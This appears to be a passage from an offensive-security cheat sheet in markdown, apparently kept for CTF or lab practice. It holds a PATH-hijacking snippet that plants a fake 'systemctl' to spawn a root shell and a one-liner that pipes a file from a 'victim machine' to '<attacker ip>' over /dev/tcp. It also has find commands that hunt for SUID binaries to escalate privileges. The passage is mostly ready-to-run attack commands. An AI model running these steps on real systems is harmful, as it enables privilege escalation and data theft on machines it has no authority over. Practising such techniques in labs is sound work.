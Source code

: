 —> we can execute any code in the debugger

### PATH Hijacking

```bash
echo '/bin/bash' > systemctl
chmod +x systemctl
export PATH=.:$PATH
```

---

# Random things
#### mtu speed

```bash
sudo ifconfig tun0 mtu 1200
```

#### send a file from victim machine to attacker machine

```bash
cat $file > /dev/tcp/<attacker ip>/<port>
```

---

# Find Command
#### Listing files owned by a group

```bash
find / -type f -group users 2>/dev/null
```

#### Search for SUID files

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

#### using Find to find SUID binaries for root

```bash
find / -perm +6000 2>/dev/null | grep '/bin'
```

---

# JohnTheRipper
Rules file

```markdown
/etc/john/john.conf
```
